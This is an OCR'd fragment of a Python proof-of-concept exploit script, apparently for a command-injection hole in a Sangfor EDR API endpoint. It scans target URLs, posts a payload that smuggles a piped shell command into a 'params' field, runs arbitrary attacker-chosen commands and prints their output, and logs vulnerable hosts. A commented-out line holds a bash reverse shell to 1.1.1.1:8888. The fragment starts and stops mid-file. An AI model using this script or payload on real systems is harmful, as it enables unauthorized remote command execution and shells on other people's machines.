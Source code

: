     data = json.loads(res.content)

    #print(data['results'])

    for i in data['results']:

        result.append(i)

    return result

def log(data):

    with open('successLog.txt','a+') as f:

        f.write(data+'\n')

def poc(u,**attack):

    print("[*] Checking %s"%(u))

    uri = "/api/edr/sangforinter/v2/cssp/slog_client?token=eyJtZDUiOnRydWV9"

    url = u+uri

    #data={"params":"w=123\"'1234123'\"|bash -i>& /dev/tcp/1.1.1.1/8888 0>&1"}

    if not attack:

        data={"params":"w=123\"'1234123'\"|echo aaabbbccc00aa"}

    else:

        if attack['flag']:

            data={"params":"w=123\"'1234123'\"|{}".format(attack['cmd'])}

    try:

        res = requests.post(url,data=json.dumps(data),verify=False,timeout=timeout)

        data = json.loads(res.content)

        if (data["code"] == 0) or (data["code"] == 1116):

            print("[*] %s is vulnerabile !"%(u))

            if attack and (data["code"] == 0):

                for d in data["data"]:

                    print(d)

            else:

                print("[-] May command error!")

        else:

            print("[*] %s may not vulnerabile ! ,code is:%s"%(u,str(data["code"])))

    except Exception as e:

        print("[-] Error %s , %s"%(u,e))

if len(sys.argv)==2:
